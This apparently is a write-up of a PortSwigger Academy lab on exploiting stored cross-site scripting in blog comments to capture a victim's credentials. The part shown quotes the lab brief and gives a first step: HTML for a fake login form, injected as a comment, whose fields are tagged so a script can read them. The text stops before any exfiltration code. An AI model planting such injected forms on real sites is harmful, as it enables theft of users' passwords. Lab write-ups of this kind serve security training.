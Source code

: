 ### Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**Note**  

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

_____

Analysis and Exploitation:

1. Post comment with HTML to build a simplified form with username and password fields.

Set IDs to easily select them from Javascript.
```html
<section>
    <form class=login-form method=POST action=/login>
        <label>Username</label>
            <input required type=username name="username" id="usertohack">
        <label>Password</label>
            <input required type=password name="password" id="pswtohack">
    </form>
</section>
```